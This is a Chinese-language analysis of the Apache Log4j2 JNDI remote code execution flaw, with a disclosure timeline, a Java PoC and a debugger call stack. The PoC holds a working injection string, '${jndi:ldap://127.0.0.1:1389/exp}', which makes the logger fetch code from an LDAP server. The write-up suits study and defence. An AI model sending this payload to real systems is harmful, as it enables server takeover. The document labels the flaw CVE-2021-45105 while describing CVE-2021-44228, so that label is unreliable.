 # Apache Log4j 漏洞分析 （CVE-2021-45105）


## 0x00 Introduction

2021.12.09安全圈，红队的狂欢，蓝队的噩梦。CVE-2021-45105堪称核弹级漏洞，主要在于log4j应用极其广泛，漏洞触发也相对容易，百度、苹果、特斯拉等大厂都存在漏洞。


漏洞披露时间轴：
- 2014年7月13日：Apache Log4j2官方发布log4j-2.0此时该漏洞已经存在，距今7年之久；
- 2021年11月24日：阿里云安全团队向Apache官方报告了ApacheLog4j2远程代码执行漏洞（CVE-2021-44228）；
- 2021年12月8日：Apache Log4j2官方发布log4j2-2.15.0-rc1并第一次修复CVE-2021-44228漏洞；
- 2021年12月9日：启明星辰ADLab监测到Apache Log4j2官方公告并开展验证；
- 2021年12月10日：启明星辰ADLab确认漏洞存在，成功复现该漏洞并通报主管单位；
- 2021年12月10日：启明星辰ADLab研究确认log4j2-2.15.0-rc1存在Bypass的漏洞；
- 2021年12月10日：Apache Log4j2官方发布log4j2-2.15.0-rc2修复bypass漏洞。

>Apache Log4j2是一个基于Java的日志记录工具。该工具重写了Log4j框架，并且引入了大量丰富的特性。该日志框架被大量用于业务系统开发，用来记录日志信息。大多数情况下，开发者可能会将用户输入导致的错误信息写入日志中。

### 环境准备

[PoC代码](./CVE-2021-45105/src/main/java/org/example/PoC.java)

- log4j 2.4.1
- jdk1.8

## 0x01 漏洞分析
PoC：    
```java
public class PoC {
    private static final Logger logger = LogManager.getLogger(PoC.class);
    public static void main(String[] args) {
        String poc = "${jndi:ldap://127.0.0.1:1389/exp}";
        //String poc = "${java:version}";
        logger.error(poc);
    }
}
```
默认情况下，log4j会检测${}占位符，对jndi，java等关键词进行相应的解析，其中jndi关键词可以直接远程加载代码执行，造成了漏洞的存在。   

## 0x02 调试分析

把断点定位`org.apache.logging.log4j.core.net.JndiManager.lookup()`。      
调用栈：

```java
lookup:172, JndiManager (org.apache.logging.log4j.core.net)
lookup:56, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:221, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1110, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1033, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:132, MessagePatternConverter (org.apache.logging.log4j.core.pattern)
format:38, PatternFormatter (org.apache.logging.log4j.core.pattern)
toSerializable:344, PatternLayout$PatternSerializer (org.apache.logging.log4j.core.layout)
toText:244, PatternLayout (org.apache.logging.log4j.core.layout)
encode:229, PatternLayout (org.apache.logging.log4j.core.layout)
encode:59, PatternLayout (org.apache.logging.log4j.core.layout)
directEncodeEvent:197, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:190, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:181, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)
```